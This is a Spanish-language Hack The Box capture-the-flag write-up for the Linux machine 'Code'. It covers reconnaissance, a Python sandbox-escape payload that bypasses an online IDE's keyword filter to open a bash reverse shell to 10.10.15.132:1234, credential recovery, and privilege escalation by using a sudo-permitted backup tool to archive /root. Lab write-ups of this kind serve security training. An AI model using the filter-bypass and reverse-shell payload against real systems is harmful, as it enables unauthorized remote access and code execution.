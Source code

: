 ![alt text](../image/code0.png)

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP    |
| :-----: | :---: | :--------: | :----------: | :------: |
|  CODE   | LINUX |   FACIL    | HACK THE BOX | CODE.HTB |
## *Reconocimiento*

Comenzamos con un escaneo simple a la IP generada en Hack the box para esta maquina y se encuentra 2 puertos abiertos.

![alt text](../image/code1.png)

En la búsqueda de directorios solo encontramos los que trae la pagina principal, no había mucho que buscar y tampoco se hallaron subdominios.

## *Análisis de vulnerabilidades*

La pagina trae un entorno de desarrollo con el lenguaje python, entre muchos códigos que podamos hacer hay una limitación a la hora de importar módulos, la pagina no nos permite trabajar con palabras clave

![alt text](../image/code2.png)
![alt text](../image/code3.png)

Con ayuda de un foro encontré una solución para bypassear una reverse shell en python. Como no comprendí muy bien este código hice que chatgpt me aclarara.

```python
().__class__.__base__.__subclasses__()[317](
["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])
```
## 🔍 **Paso a paso de la ejecución**

1️⃣ `()` → **Crea una instancia de un objeto vacío**

- En Python, `()` representa un **objeto sin definir**.
    
- Luego, se accede a sus atributos internos.
    

2️⃣ `().__class__` → **Obtiene la clase del objeto**

- `().__class__` devuelve `<class 'tuple'>`, ya que `()` es una tupla vacía.
    

3️⃣ `().__class__.__base__` → **Obtiene la clase base de la tupla**

- La clase base de `tuple` en Python es `object`, por lo que `().__class__.__base__` devuelve `<class 'object'>`.
    

4️⃣ `().__class__.__base__.__subclasses__()` → **Lista todas las subclases de `object`**

- En Python, `object` es la clase base de todo.
    
- `.subclasses__()` devuelve una lista de **todas las clases derivadas** de `object` en memoria.
    

5️⃣ `()[317]` → **Accede a una clase específica**

- `__subclasses__()` devuelve una lista de cientos de clases.
    
- `317` es el índice de la clase que queremos (que en muchas versiones de Python es `subprocess.Popen` o similar).
    

6️⃣ `()[317]([...])` → **Ejecuta un comando con `subprocess.Popen`**

- `[317]` selecciona la clase `subprocess.Popen`.
    
- Se ejecuta con `(["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])`.

## *Explotación*
![alt text](../image/code4.png)

Antes de correr el script debo estar en escucha para poder tener la reverse shell. Ejecuto el script y tengo acceso a la ruta de producción.

![alt text](../image/code5.png)

Encuentro las palabras claves que no podían ser leídas por el IDE.

![alt text](../image/code6.png)

Saliendo de la ruta app encontramos la primera flag de usuario.

![alt text](../image/code7.png)

Seguía indagando y encontré una base de datos con sus usuarios y contraseñas hasheadas

![alt text](../image/code8.png)

![alt text](../image/code9.png)

Ya con la credencial de martin accedo al ssh y nos encontramos con un archivo json y otro comprimido. Quiero saber que trae el archivo json y encuentro lo siguiente.

![alt text](../image/code10.png)
![alt text](../image/code11.png)

## *Post-Explotación*

Con la ayuda del operador EOF puedo editar un archivo usando **cat**, lo que haria este archivo es traer el directorio en donde se encuentre /root/root.txt y comprimirlo. Para que este puede ejecutarse acudimos a sudo y el comando el cual martin puede trabajar, llamamos al mismo tiempo al archivo y comienza a comprimirse.

![alt text](../image/code12.png)

Revisamos y tenemos un nuevo archivo comprimido con extension .tar, descomprimimos y tenemos la carpeta root con su flag.

![alt text](../image/code13.png)
